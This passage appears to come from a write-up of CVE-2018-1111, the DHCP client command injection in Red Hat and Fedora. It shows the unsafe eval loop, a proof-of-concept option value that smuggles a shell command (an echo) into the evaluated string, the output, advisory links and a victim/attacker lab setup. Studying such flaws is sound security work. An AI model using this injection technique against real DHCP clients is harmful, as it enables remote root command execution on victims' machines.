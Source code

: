 
#### Code injection
However, due to the unsafe `eval`, it is possible to inject bash commands:
```bash
DHCP4_OPTION_ONE="x'& echo Hacked! #"
DHCP4_OPTION_TWO='bla bla'

eval "$(                             
  declare | LC_ALL=C grep '^DHCP4_[A-Z_]*=' | while read opt; do
    optname=${opt%%=*}
    optname=${optname,,}
    optname=new_${optname#dhcp4_}
    optvalue=${opt#*=}
    echo "export $optname=$optvalue"
  done
)"
```

Will result in the evaluation of `echo Hacked!`:
```text
[1] 1541
Hacked!
```

### Sources
- [Exploit database entry](https://www.exploit-db.com/exploits/44890)
- [RedHat announcement](https://access.redhat.com/security/vulnerabilities/3442151)
- [Tenable blog post](https://www.tenable.com/blog/advisory-red-hat-dhcp-client-command-injection-trouble)
- [GitHub repository](https://github.com/kkirsche/CVE-2018-1111)
- [Twitter announcement](https://twitter.com/_fel1x/status/996388421273882626?lang=en)

## Setup
The minimal setup to demonstrate the exploit consists of just two machines: the `victim` machine
running Fedora 28, and an `attacker` machine. In this setup, the attacker simply needs to offer a
DHCP service and wait the victim's connection.

<figure style="text-align:center">
  <img src="./media/network_simple.svg" style="max-width:400px;" width="90%"/>
  <figcaption>Minimal exploit setup.</figcaption>
</figure>
